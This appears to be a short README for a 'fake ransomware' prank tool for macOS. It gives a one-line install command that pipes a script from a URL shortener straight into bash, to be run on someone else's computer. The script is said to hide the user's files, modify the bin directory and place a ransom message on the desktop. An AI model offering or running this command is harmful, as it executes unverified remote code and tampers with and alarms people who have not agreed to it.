 # ⁉️ April Fools Ransomware
A FAKE ransomware for macOS, useful for pranks.
# ⬇️ Installation
Run this on the computer you want to prank
```/bin/bash -c "$(curl -fsSL http://bitly.ws/qhXI)"```
# 🤔 How does it work?
1. Uses the `chflags hidden` command to **make files appear hidden**
2. Adds a shell script to your bin to show the files again
3. Uses the `curl -fsSL` command to save the ransom message to their desktop
